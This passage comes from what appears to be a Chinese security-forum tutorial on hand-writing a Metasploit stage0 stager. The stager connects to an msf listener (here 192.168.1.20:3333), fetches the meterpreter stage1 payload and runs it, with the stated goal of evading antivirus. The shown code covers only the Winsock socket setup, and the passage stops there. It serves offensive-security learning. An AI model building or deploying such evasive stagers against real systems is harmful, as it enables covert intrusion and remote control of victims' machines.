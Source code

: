 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8cf9a86faadbd4c568caafad4b8d343f55ae1c18.png)

上线流程图  
![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-a8d7833214f1c3639cc1ece51579957b45663234.png)

至此我们已经把msf上线的原理和上线流程讲完了，下面我们来看一下stage0阶段的代码怎么写。

0x02 stage0阶段代码编写
=================

代码思路
----

通过对meterpreter上线流程分析我们知道了，能上线msf是因为metsrv.x86.dll这个dll被载入到了内存中并执行了，不是只有shellcode就可以上线msf，那么我们是不是可以通过socket(网络编程)自己写代码去与msf建立链接，接收stage1阶段载荷并执行stage1阶段载荷呢?不用msfvenom生成的shellcode，静态免杀的效果应该不错吧。

stage0阶段代码解释
------------

通过查阅资料发现，如果要进行socket编程需要使用ws2\_32.dll文件，我们通过预处理指令来链接ws2\_32.lib文件，该lib最后会调用ws2\_32.dll。

`#pragma comment(lib,"ws2_32.lib")`链接名字是ws2\_32.lib的lib文件。

下面进入main函数

```php
WSADATA ws_Data;
WSAStartup(MAKEWORD(2, 2), &ws_Data);
SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);
```

`WSADATA ws_Data;`WSADATA是一个结构体，这个结构体用来存储windows socket相关信息，比如socket的版本，套接字最大数量等信息，这些信息不需要我们手动去设置，由`WSAStartup()`函数帮我们做。

`WSAStartup(MAKEWORD(2, 2), &ws_Data);`函数功能是开始使用Winsock dll，函数第一个参数是socket的版本，第二个参数是一个指针，指向WSADATA数据结构，这个结构用于接收`WSAStartup()`函数返回的信息。

`SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);`定义一个`socket`类型的变量来接收socket函数的返回值，函数第一个参数是协议簇，也就是ip地址的类型，这里`AF_INET`代表tcp/ip/ipv4，第二个参数是套接字的类型，这里是`SOCK_STREAM`代表使用TCP协议，第三个参数意思是要指定的协议，因为前面的两个参数已经确定了我们要用什么类型的套接字，所以这个值填0即可。

上面的代码主要是告诉操作系统，我们要用2.2版本的socket，使用的协议是tcp/ip协议，ip地址类型是ipv4，下面我们来给socket的属性赋值。

```php
SOCKADDR_IN sock_info = { 0 };
sock_info.sin_family = AF_INET;
sock_info.sin_addr.S_un.S_addr = inet_addr("192.168.1.20");
sock_info.sin_port = htons(3333);
```

`SOCKADDR_IN sock_info = { 0 };`定义一个`SOCKADDR_IN`类型的结构体并初始化为0。  
`sockaddr_in`结构体的定义如下

```php
struct sockaddr_in {
        short   sin_family;//协议簇
        u_short sin_port;//端口
        struct  in_addr sin_addr;//另一个结构体，这个结构体中的成员S_addr是socket的ip
        char    sin_zero[8];//没有用，为了字节对齐而存在的
};
```
